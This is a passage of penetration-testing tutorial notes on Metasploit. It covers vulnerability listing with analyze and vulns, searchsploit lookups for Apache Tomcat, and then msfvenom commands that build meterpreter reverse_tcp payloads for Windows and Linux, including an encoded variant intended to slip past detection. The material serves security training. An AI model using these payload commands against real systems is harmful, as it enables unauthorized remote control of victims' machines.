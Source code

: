 We can make use of the **analyze command**. This command will essentially analyse the contents of the metasploit framework database, so the hosts and services and then will provide with a list of vulnerabilities that those particular services suffer from or that can be exploited. 

```shell
# msfconsole
analyze
vulns
```

This is how to perform vulnerability scanning with Metasploit framework and how to utilize the various auxiliary and exploit module to test whether a particular service is vulnerable to an exploit or not. We've also explored the process of utilizing search exploit in order to identify or find vulnerabilities for specific services. 

Last example:

```shell
# msfconsole
services
# Now I maybe want to target this particular version of Apache Tomcat - Apache Tomcat/Coyote JSP engine 1.1
searchsploit "Apache Tomcat/Coyote JSP engine 1.1"
# In this case we don't get anyting
searchsploit "Apache Tomcat"
```

<br>

## 4. Client-Side Attacks

### 4.1. Generating Payloads With Msfvenom

Now we've essentially explored the process of performing:
- Information gathering
- Enumeration
- Vulnerability scanning

Now, we can move on to exploring **exploitation**, starting with **client-side attacks** as our initial attack vector. To perform these attacks, we must first learn how to generate payloads within the Metasploit framework. For this purpose, we'll use a utility called **MSFvenom**.

```shell
msfvenom --list payloads # List of available payloads
msfvenom --list formats
msfvenom --list encoders

# Win 32bit
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x86>.exe

# Win 64bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x64>.exe

# Linux 32bit
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x86>

# Linux 64bit
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x64>

# Win 32bit + shikata_ga_nai encoded
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

```